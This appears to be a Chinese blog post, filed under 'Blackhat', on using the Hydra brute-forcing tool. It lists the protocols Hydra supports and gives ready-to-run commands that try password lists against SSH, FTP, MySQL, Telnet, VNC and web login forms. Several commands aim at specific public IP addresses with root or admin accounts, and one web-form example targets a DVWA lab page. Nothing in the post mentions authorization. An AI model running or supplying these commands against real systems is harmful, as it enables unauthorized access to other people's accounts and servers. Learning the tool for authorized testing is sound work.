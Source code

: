 ```yaml
---
title: 老牌暴力破解工具 hydra 的使用
name: hydra-brute-force
date: 2019-06-05
tags: [brute,暴力破解]
categories: [Blackhat]
---
```


* 目录
{:toc}

<p style="text-align:center;">
![xhygra](//via.placeholder.com/300x300?text=""){: data-src="//vinnycc.oss-cn-shanghai.aliyuncs.com/20190605/xhydra.png"}
</p>

## 说明

[Hydra](//github.com/vanhauser-thc/thc-hydra) 是比较常规的暴力破解工具，支持多种协议，如下：

```
Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
```

## 使用

```shell
# ssh
$ hydra -l root -P password.lst -vV ssh://139.196.15.128:4322

# ftp
$ hydra -l admin -P password.lst -vV -t 10 ftp://14.23.48.233

# mysql
$ hydra -l root -P password.lst -vV 113.109.217.131 mysql

# telnet
$ hydra -l administrator password.lst -vV telnet://125.216.34.132

#vnc
$ hydra -P passwordlist -t 1 -w 5 -f -s 5901 192.168.100.155 vnc -v

# web login
# Examples:
# "/login.php:user=^USER^&pass=^PASS^:incorrect"
# "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
# "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
# "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
$ hydra 192.168.100.155 -V -l admin -P passwordlist http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low"
```
